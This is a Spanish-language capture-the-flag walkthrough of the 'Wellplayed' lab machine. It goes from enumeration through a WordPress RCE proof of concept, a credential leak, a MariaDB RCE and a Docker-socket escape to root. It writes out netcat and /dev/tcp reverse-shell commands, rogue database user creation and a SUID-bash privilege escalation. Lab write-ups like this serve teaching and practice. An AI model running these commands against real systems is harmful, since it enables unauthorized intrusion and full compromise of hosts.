


## Table of contents

## Enumeración

La máquina Wellplayed tiene la ip **10.0.2.72**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.72

Host is up (0.00055s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp   open  http     nginx
|_http-title: Did not follow redirect to https://wellplayed.nyx/
443/tcp  open  ssl/http nginx
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 The plain HTTP request was sent to HTTPS port
| ssl-cert: Subject: commonName=wellplayed.nyx/organizationName=Organization/stateOrProvinceName=State/countryName=US
| Not valid before: 2026-08-09T12:19:30
|_Not valid after:  2027-08-09T12:19:30
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
8080/tcp open  http     Node.js Express framework
|_http-title: Content Review System
|_http-open-proxy: Proxy might be redirecting requests
```

### Puerto 443 (Web)

Tenemos **Virtual Hosting** por lo que añadimos la ip y el dominio al **/etc/hosts**.

```bash
echo '10.0.2.72 wellplayed.nyx' | sudo tee -a /etc/hosts
```

Ahora si podemos acceder al contenido de la web y nos encontramos con un **Wordpress**.



Empleamos **wpscan** para realizar una enumeración del Wordpress, ya que está utilizando un certificado **SSL/TLS** autofirmado debemos de evitar que se verifique con el parámetro `--disable-tls-checks`.

```bash
 wpscan --url "https://wellplayed.nyx" -e --disable-tls-checks

[+] URL: https://wellplayed.nyx/ [10.0.2.72]

Interesting Finding(s):
...
 
[+] WordPress version 6.9.4 identified (Insecure, released on 2026-03-11).

...

[+] admin
...
```

El escáner nos revela un usuario **admin** y la versión del **Wordpress**: **6.9.4**

Si buscamos acerca de vulnerabilidades de esta versión encontramos dos críticas:
- **CVE-2026-63030 (WP2Shell Unauthenticated RCE)**
- **CVE-2026-64638 (XSS2Shell)**

En nuestro caso, vamos a explotar el **CVE-2026-63030** (**WP2Shell**), para explotar el otro CVE (**XSS2Shell**) tendríamos que aprovecharnos del servicio del puerto 8080 en el cual el usuario admin revisa los links que se le proporcionan.

## Explotación
### CVE-2026-63030 (WP2Shell Unauthenticated RCE)

Para explotar esta vulnerabilidad vamos a emplear el **Proof of Concept** (**PoC**) del repositorio de Github de **Icex0**. 

- https://github.com/Icex0/wp2shell-poc

Clonamos el repositorio a nuestro equipo y le realizamos un pequeño ajuste.

Añadimos la siguientes líneas en el **wp2shell.py** para que no valide el certificado **SSL/TLS**.

```python
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```

De esta forma, el **wp2shell.py** queda así:

```python
#!/usr/bin/env python3
"""Standalone launcher — equivalent to `python3 -m wp2shell`."""

import sys
import ssl
from wp2shell.cli import main

ssl._create_default_https_context = ssl._create_unverified_context

if __name__ == "__main__":
    sys.exit(main())
```

Lo ejecutamos:

```bash
python3 wp2shell.py shell https://wellplayed.nyx --cmd id
[!] This uploads a plugin containing a webshell to the target.
[!] No credentials supplied; attempting pre-auth administrator creation.
[*] Creating administrator through the SQLi-to-customizer bridge...
[+] Administrator created: wp2_dedc0c42e45d
[+]     email:    wp2_dedc0c42e45d@wp2shell.invalid
[+]     password: Wp2!D9QGLvIltMulWZPOS5u1
[*] Authenticating as 'wp2_dedc0c42e45d'...
[+] Authenticated.
[*] Deploying webshell plugin...
[+] Webshell: https://wellplayed.nyx/wp-content/plugins/wp2shell_bf67bc2f/wp2shell_bf67bc2f.php

uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] Deleting generated administrator...
[+] Generated administrator removed from the target.
[*] Cleaning up webshell...
[+] Webshell removed from the target.
```

Tenemos un **Remote Code Execution** (**RCE**), por lo tanto, nos ponemos en escucha en nuestra máquina con **netcat** y nos enviamos una reverse shell con **w2shell.py**.

```bash
nc -nlvp 4444
```

```bash
python3 wp2shell.py shell https://wellplayed.nyx --cmd 'nc 10.0.2.61 4444 -e /bin/bash'
```

Entramos como el usuario **www-data**.

## Movimiento Lateral
### Maciiii

Revisando el directorio **/opt** encontramos el directorio **pwned** con permisos **777** y un archivo **secure.txt.xz**

```bash
www-data@wellplayed:~$ ls -la /opt
total 20
drwxr-xr-x   4 root root 4096 Aug 10 12:22 .
drwxr-xr-x  18 root root 4096 Jul 30 05:08 ..
drwx--x--x   4 root root 4096 Aug 10 10:04 containerd
drwxrwxrwx+  2 root root 4096 Aug 11 05:49 pwned
-rw-r--r--   1 root root  396 Aug 10 12:22 secure.txt.xz
```

Los archivos con extensión **.xz** son archivos comprimidos que utilizan el algoritmo de compresión sin pérdida **LZMA2**.

Pasamos ese archivo a nuestro equipo y lo descomprimimos empleando **unxz**.

```bash
unxz secure.txt.xz
```

Al descomprimirlo nos deja un archivo de texto.

```txt
----- BEGIN SECURE MEMO -----

To: Security Team
From: DevOps
Date: August 2026

URGENT: Security Issues Detected

The following critical issues require immediate attention:

1. The password for user "maciiii" is compromised:
   MEf4MEf@c4j8UmUGAv*3sAhIkow!oKNOkuk4bulRa

2. Docker volume mount is mapped to pwned folder.

ACTION REQUIRED:
- Change maciiii password immediately
- Remove the volume mount

----- END SECURE MEMO -----
```

Ya tenemos las credenciales de **maciiii**, así que nos conectamos por **ssh** con ellas.

```bash
ssh maciiii@wellplayed.nyx

maciiii@wellplayed:~$ ls -la
total 28
drwx------ 2 maciiii maciiii 4096 Aug 10 15:53 .
drwxr-xr-x 3 root    root    4096 Aug 10 11:38 ..
lrwxrwxrwx 1 maciiii maciiii    9 Aug 10 11:38 .bash_history -> /dev/null
-rw-r--r-- 1 maciiii maciiii  220 May  9 06:07 .bash_logout
-rw-r--r-- 1 maciiii maciiii 3526 May  9 06:07 .bashrc
lrwxrwxrwx 1 maciiii maciiii    9 Aug 10 12:42 .mariadb_history -> /dev/null
-rw-r--r-- 1 maciiii maciiii  261 Aug 10 11:41 note.txt
-rw-r--r-- 1 maciiii maciiii  807 May  9 06:07 .profile
-rw-r--r-- 1 maciiii maciiii   33 Aug 10 11:42 user.txt
```

## Escalada de Privilegios
### Root

Revisando los procesos de la máquina vemos el servicio de la base de datos está montado en un contenedor con la ip **172.18.0.2**

```bash
ps -faux

root         783  0.0  7.9 2163280 92788 ?       Ssl  12:25   0:01 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1116  0.2  0.7 1746724 8776 ?        Sl   12:25   0:04  \_ /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 3306 -container-ip 172.18.0.2 -container-port 3306 -use-listen-fd
root        1122  0.0  0.5 1672992 6476 ?        Sl   12:25   0:00  \_ /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 3306 -container-ip 172.18.0.2 -container-port 3306 -use-listen-fd
```

Nos conectamos a este servicio como su usuario **root** y con la contraseña vacía.

```bash
mysql -h 172.18.0.2 -u root -p --skip-ssl-verify-server-cert
Enter password: 

MariaDB [(none)]> SELECT version();
+------------------------+
| version()              |
+------------------------+
| 13.0.1-MariaDB-ubu2604 |
+------------------------+
1 row in set (0.000 sec)
```

Se trata de **MariaDB 13.0.1**, si buscamos esa versión encontramos una vulnerabilidad que nos permite un **RCE** bajo una serie de condiciones. Vamos a explotarla empleando este repositorio de Github de **dinosn**.

- https://github.com/dinosn/mariadb-13-rce-lab


Antes de ello, debemos de preparar el servicio de **MariaDB**, para ello:
- Creamos un usuario **lowpriv** con contraseña **lowpriv**
- Creamos una base de datos llamada **appdb**
- Le concedemos permisos a **lowpriv** para que pueda conectarse desde cualquier host.
- Le concedemos control a **lowpriv** sobre la base de datos creada. 

```bash
MariaDB [(none)]> CREATE USER 'lowpriv'@'%' IDENTIFIED BY 'lowpriv';
Query OK, 0 rows affected (0.008 sec)

MariaDB [(none)]> CREATE DATABASE appdb;
Query OK, 1 row affected (0.001 sec)

MariaDB [(none)]> GRANT USAGE ON *.* TO 'lowpriv'@'%';
Query OK, 0 rows affected (0.003 sec)

MariaDB [(none)]> GRANT ALL ON appdb.* TO 'lowpriv'@'%';
Query OK, 0 rows affected (0.004 sec)
```

Una vez hecho, ya podemos explotar la vulnerabilidad.

Dado que la máquina víctima tiene **netcat** instalado, podemos utilizarla para que el contenedor de MariaDB envíe la reverse shell hacia ella. De este modo, evitamos la necesidad de crear túneles o port forwarding para establecer la conexión con nuestra máquina.

Iniciamos una nueva conexión por ssh como el usuario maciiii y nos ponemos en escucha en ella con **netcat**.

```bash
nc -nlvp 4000
```

Pasamos el script **exploit_pure_sql.py** del repositorio a la máquina y ejecutamos la reverse shell.


```bash
python3 exploit_pure_sql.py --host 172.18.0.2 --port 3306 --user lowpriv --password lowpriv --command 'bash -c "bash -i >& /dev/tcp/172.18.0.1/4000 0>&1"' --marker /tmp/pwned
```

Entramos al contenedor como el usuario **mysql**

```bash
mysql@4d6a37e7cb75:~$ ls -la
total 365416
drwxr-xr-x 7 mysql mysql      4096 Aug 20 18:07 .
drwxr-xr-x 1 root  root       4096 Aug  9 22:50 ..
-rw------- 1 mysql 104         169 Aug 11 10:51 .bash_history
-rw------- 1 mysql 104         118 Aug  9 22:38 .my-healthcheck.cnf
drwx------ 2 mysql 104        4096 Aug 20 18:10 appdb
-rw-rw---- 1 mysql 104     5537792 Aug 20 18:10 aria_log.00000001
-rw-rw---- 1 mysql 104          52 Aug 12 15:58 aria_log_control
-rw------- 1 mysql 104   583950336 Aug 10 20:51 core.1
-rw-rw---- 1 mysql 104           9 Aug 12 15:52 ddl_recovery-backup.log
-rw-rw---- 1 mysql 104       16384 Aug 20 18:10 ddl_recovery.log
-rw-rw---- 1 mysql 104        1158 Aug 12 15:58 ib_buffer_pool
-rw-rw---- 1 mysql 104   100663296 Aug 20 18:10 ib_logfile0
-rw-rw---- 1 mysql 104    12582912 Aug 12 15:44 ibdata1
-rw-rw---- 1 mysql 104    12582912 Aug 20 17:25 ibtmp1
-rw-r--r-- 1 mysql 104          14 Aug  9 22:38 mariadb_upgrade_info
-rw-rw---- 1 mysql 104           0 Aug  9 22:38 multi-master.info
drwx------ 2 mysql 104        4096 Aug  9 22:38 mysql
drwx------ 2 mysql 104        4096 Aug  9 22:38 performance_schema
drwx------ 2 mysql 104       12288 Aug  9 22:38 sys
-rw-rw---- 1 mysql 104       24576 Aug 20 17:25 tc.log
-rw-rw---- 1 mysql 104    10485760 Aug 12 15:44 undo001
-rw-rw---- 1 mysql 104    10485760 Aug 12 15:44 undo002
-rw-rw---- 1 mysql 104    10485760 Aug 12 15:44 undo003
drwx------ 2 mysql 104        4096 Aug  9 22:40 wordpress
```

Al revisar el **.bash_history**, encontramos un comando de **Docker** que permite levantar un contenedor con privilegios elevados y ejecutar comandos como el usuario **root** de la máquina.

```bash
mysql@4d6a37e7cb75:~$ cat .bash_history 
docker -H unix:///var/run/docker.sock.lol run --rm --privileged --pid=host --volume /:/host ubuntu:22.04 cat /host/root/root.txt
apt-get update
ip a
exit
ls
docker
exit
```

En lugar de leer la flag de root directamente, vamos a darle permisos **SUID** a la bash. Ejecutamos dentro del contenedor:

```bash
docker -H unix:///var/run/docker.sock.lol run --rm --privileged --pid=host --volume /:/host ubuntu:22.04 chmod u+s /host/bin/bash
```

Hecho esto, regresamos a la máquina y nos lanzamos una bash privilegiada para convertirnos en **root**.

```bash
maciiii@wellplayed:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1298416 May  9 06:07 /bin/bash
maciiii@wellplayed:~$ bash -p

bash-5.2# whoami
root
bash-5.2# ls -la /root
total 124
drwx------  9 root root  4096 Aug 11 05:49 .
drwxr-xr-x 18 root root  4096 Jul 30 05:08 ..
lrwxrwxrwx  1 root root     9 Aug  1 05:33 .bash_history -> /dev/null
-rw-r--r--  1 root root  3526 Aug  1 05:34 .bashrc
-rw-r--r--  1 root root  3482 Aug 10 16:09 bot.js
drwxr-xr-x  5 root root  4096 Aug 10 11:04 .cache
drwx------  4 root root  4096 Aug 10 10:57 .config
-rw-r--r--  1 root root   481 Aug 10 16:09 docker-compose.yml
-rw-r--r--  1 root root  9155 Aug 10 11:11 index.html
-rw-------  1 root root    20 Aug 11 05:49 .lesshst
drwx------  3 root root  4096 Aug  1 05:42 .local
drwxr-xr-x  2 root root  4096 Aug 10 15:03 mariadb-13-rce-lab
lrwxrwxrwx  1 root root     9 Aug 10 12:46 .mariadb_history -> /dev/null
drwxr-xr-x 93 root root  4096 Aug 10 10:45 node_modules
drwxr-xr-x  4 root root  4096 Aug 10 10:45 .npm
-rw-r--r--  1 root root   293 Aug 10 10:45 package.json
-rw-r--r--  1 root root 40453 Aug 10 10:45 package-lock.json
-rw-r--r--  1 root root   132 Jul  4 04:05 .profile
-r--------  1 root root    33 Aug 10 11:45 root.txt
-rw-r--r--  1 root root    66 Aug  1 05:50 .selected_editor
-rw-r--r--  1 root root   202 Aug  9 07:04 setup.sql
drwx------  2 root root  4096 Aug  1 05:45 .ssh
```